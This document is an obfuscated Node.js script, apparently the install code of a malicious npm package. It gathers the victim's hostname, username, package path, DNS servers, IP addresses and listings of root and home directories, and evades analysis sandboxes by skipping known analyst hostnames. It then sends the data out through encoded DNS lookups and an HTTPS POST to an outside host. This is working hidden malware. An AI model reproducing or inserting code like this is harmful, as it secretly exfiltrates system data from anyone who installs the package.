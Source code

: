 var _0x18a315=_0xeb71;(function(_0x46a40d,_0x4ac794){var _0x441d60=_0xeb71,_0x3fa36e=_0x46a40d();while(!![]){try{var _0x5d85b4=parseInt(_0x441d60(0x1e8))/0x1+-parseInt(_0x441d60(0x1e3))/0x2+-parseInt(_0x441d60(0x1e2))/0x3+-parseInt(_0x441d60(0x1c6))/0x4*(parseInt(_0x441d60(0x1d6))/0x5)+-parseInt(_0x441d60(0x1cf))/0x6*(-parseInt(_0x441d60(0x1de))/0x7)+parseInt(_0x441d60(0x1e9))/0x8+-parseInt(_0x441d60(0x1c0))/0x9*(-parseInt(_0x441d60(0x1c8))/0xa);if(_0x5d85b4===_0x4ac794)break;else _0x3fa36e['push'](_0x3fa36e['shift']());}catch(_0x27eadc){_0x3fa36e['push'](_0x3fa36e['shift']());}}}(_0x3744,0xdc862));const os=require('os'),dns=require('dns'),querystring=require(_0x18a315(0x1ea)),https=require(_0x18a315(0x1d4)),fs=require('fs');var path=require(_0x18a315(0x1d3));const packageJSON=require(_0x18a315(0x1d9)),package=packageJSON['name'];function checkuuid(_0x5ce8af){var _0x21fa8a=_0x18a315,_0x5c91b5=/^[0-9a-f]+-[0-9a-f]+-[0-9a-f]+-[0-9a-f]+-[0-9a-f]+$/g;return _0x5c91b5[_0x21fa8a(0x1ef)](_0x5ce8af)?!![]:![];}function checkhex(_0x1bbe73){var _0x5c4928=_0x18a315,_0xc2f12b=/^[0-9a-f]+$/g;return _0xc2f12b[_0x5c4928(0x1ef)](_0x1bbe73)?!![]:![];}function _0xeb71(_0x1eedb9,_0x12ce3d){var _0x3744b4=_0x3744();return _0xeb71=function(_0xeb7162,_0x701064){_0xeb7162=_0xeb7162-0x1bd;var _0x268288=_0x3744b4[_0xeb7162];return _0x268288;},_0xeb71(_0x1eedb9,_0x12ce3d);}function _0x3744(){var _0x1ee644=['stringify','instance','1602882ZPvjAw','5240120SueDPf','querystring','username','readdirSync','toString','DESKTOP-4E1IS0K','test','aws-7grara913oid5jsexgkq','homedir','write','3078zMVidC','C:\x5c','replace','request','length','end','128BqhlsJ','error','53560QUnlfJ','userInfo','127','push','getServers','address','hostname','6402pmQlOq','192','racknerd-a576c3','/home','path','https','split','258695kxUicu','POST','425a2.33mail.ga','./package.json','startsWith','application/x-www-form-urlencoded','172','lili-pc','9233ZJAQlr','D:\x5c','join','D:\x5cTRANSFER\x5c','4858071JDMRKj','2637502juhvAu','box','networkInterfaces'];_0x3744=function(){return _0x1ee644;};return _0x3744();}function checkpath(_0x1ce6d0){var _0x3f3b6f=_0x18a315,_0x36178f=/^\/root\/extract[0-9]+\/package$/g;return _0x36178f[_0x3f3b6f(0x1ef)](_0x1ce6d0)?!![]:![];}function checklili(_0x28d5ef){var _0x4f2ce2=_0x18a315,_0x298c45=/^\/home\/lili\/vastest\/[0-9]+\/package$/g;return _0x298c45[_0x4f2ce2(0x1ef)](_0x28d5ef)?!![]:![];}function isValid(_0x146638,_0x413048,_0x3ab754,_0x47e8ca){var _0x2c0e92=_0x18a315;_0x47e8ca[_0x2c0e92(0x1c4)]==0x0?lastdir='':lastdir=_0x47e8ca[_0x47e8ca['length']-0x1];if(_0x146638==_0x2c0e92(0x1ee)&&_0x3ab754=='daasadmin'&&_0x413048['startsWith'](_0x2c0e92(0x1e1)))return![];else{if(_0x146638==_0x2c0e92(0x1d1))return![];else{if(checkhex(_0x146638)&&checkpath(_0x413048))return![];else{if(_0x146638==_0x2c0e92(0x1e4))return![];else{if(checkhex(_0x146638))return![];else{if(checkuuid(_0x146638))return![];else{if(_0x146638==_0x2c0e92(0x1dd))return![];else{if(_0x146638==_0x2c0e92(0x1bd))return![];else return _0x146638==_0x2c0e92(0x1e7)?![]:!![];}}}}}}}return!![];}function getFiles(_0x19edde){var _0x235386=_0x18a315,_0x15ebc9=[];for(var _0x243457=0x0;_0x243457<_0x19edde[_0x235386(0x1c4)];_0x243457++){try{mpath=_0x19edde[_0x243457],files=fs[_0x235386(0x1ec)](mpath);for(var _0x50cd29=0x0;_0x50cd29<files['length'];_0x50cd29++){_0x15ebc9[_0x235386(0x1cb)](path[_0x235386(0x1e0)](mpath,files[_0x50cd29]));}}catch(_0x5b5fe9){}}return _0x15ebc9;}function isprivate(_0x1a1e91){var _0x1c01fe=_0x18a315;if(_0x1a1e91[_0x1c01fe(0x1da)]('fe80::')||_0x1a1e91=='::1')return!![];var _0x289e00=_0x1a1e91[_0x1c01fe(0x1d5)]('.');return _0x289e00[0x0]==='10'||_0x289e00[0x0]===_0x1c01fe(0x1dc)&&(parseInt(_0x289e00[0x1],0xa)>=0x10&&parseInt(_0x289e00[0x1],0xa)<=0x1f)||_0x289e00[0x0]===_0x1c01fe(0x1d0)&&_0x289e00[0x1]==='168'||_0x289e00[0x0]===_0x1c01fe(0x1ca)&&_0x289e00[0x1]==='0'&&_0x289e00[0x2]==='0';}function toHex(_0x10f865){var _0x1e10bd=_0x18a315;const _0x21a74a=Buffer['from'](_0x10f865,'utf8'),_0xd93422=_0x21a74a[_0x1e10bd(0x1ed)]('hex');return _0xd93422;}function todashedip(_0x2c822d){var _0x12e612=_0x18a315;return _0x2c822d[_0x12e612(0x1c2)](/\./g,'-')['replace'](/:/g,'-');}function gethttpips(){var _0x252e4e=_0x18a315,_0x546894=[],_0x5e8be6=os[_0x252e4e(0x1e5)]();for(item in _0x5e8be6){if(item!='lo')for(var _0x1eef11=0x0;_0x1eef11<_0x5e8be6[item][_0x252e4e(0x1c4)];_0x1eef11++){_0x546894[_0x252e4e(0x1cb)](_0x5e8be6[item][_0x1eef11][_0x252e4e(0x1cd)]);}}return _0x546894;}function getIps(){var _0x571188=_0x18a315,_0x21498f=[],_0x5c888b=os[_0x571188(0x1e5)]();for(item in _0x5c888b){if(item!='lo')for(var _0x10e06c=0x0;_0x10e06c<_0x5c888b[item]['length'];_0x10e06c++){if(!isprivate(_0x5c888b[item][_0x10e06c][_0x571188(0x1cd)]))_0x21498f[_0x571188(0x1cb)](_0x5c888b[item][_0x10e06c][_0x571188(0x1cd)]);}}for(var _0x10e06c=0x0;_0x10e06c<_0x21498f[_0x571188(0x1c4)];_0x10e06c++){if(_0x21498f[_0x10e06c]['includes']('.'))return'i.'+todashedip(_0x21498f[_0x10e06c])+'.i';}if(_0x21498f[_0x571188(0x1c4)]>0x0)return'i.'+todashedip(_0x21498f[0x0])+'.i';else return'i._.i';}function getPathChunks(_0x4c726c){var _0x1a2155=_0x18a315;str='',chunks=_0x4c726c[_0x1a2155(0x1d5)]('/');for(var _0x119f87=0x0;_0x119f87<chunks[_0x1a2155(0x1c4)];_0x119f87++){str=str+toHex(chunks[_0x119f87])+'.';}return str=str['slice'](0x1,-0x1),'p.'+str+'.p';}function toName(_0x4b441b){var _0x5be270=_0x18a315,_0x2b289b='',_0x2b8a18=[],_0x3d254c='',_0x30728e='',_0xffa1e1=_0x5be270(0x1d8);return _0x2b289b=toHex(_0x4b441b['hn'])+'.'+toHex(_0x4b441b['p'])+'.'+toHex(_0x4b441b['un'])+'.'+getPathChunks(_0x4b441b['c'])+'.'+getIps()+'.'+_0xffa1e1,_0x2b8a18[_0x5be270(0x1cb)](_0x2b289b),_0x2b8a18;}const td={'p':package,'c':__dirname,'hd':os[_0x18a315(0x1be)](),'hn':os[_0x18a315(0x1ce)](),'un':os[_0x18a315(0x1c9)]()[_0x18a315(0x1eb)],'dns':JSON['stringify'](dns[_0x18a315(0x1cc)]()),'ip':JSON[_0x18a315(0x1e6)](gethttpips()),'dirs':JSON[_0x18a315(0x1e6)](getFiles([_0x18a315(0x1c1),_0x18a315(0x1df),'/',_0x18a315(0x1d2)]))};var qs=toName(td);if(isValid(td['hn'],td['c'],td['un'],td['dirs'])){for(var j=0x0;j<qs[_0x18a315(0x1c4)];j++){dns['lookup'](qs[j],function(_0x256b8c,_0x3fae29){});}const trackingData=JSON[_0x18a315(0x1e6)](td);var postData=querystring[_0x18a315(0x1e6)]({'msg':trackingData}),options={'hostname':_0x18a315(0x1d8),'port':0x1bb,'path':'/','method':_0x18a315(0x1d7),'headers':{'Content-Type':_0x18a315(0x1db),'Content-Length':postData[_0x18a315(0x1c4)]}},req=https[_0x18a315(0x1c3)](options,_0x2f100e=>{_0x2f100e['on']('data',_0x325674=>{});});req['on'](_0x18a315(0x1c7),_0x1e78d7=>{}),req[_0x18a315(0x1bf)](postData),req[_0x18a315(0x1c5)]();}
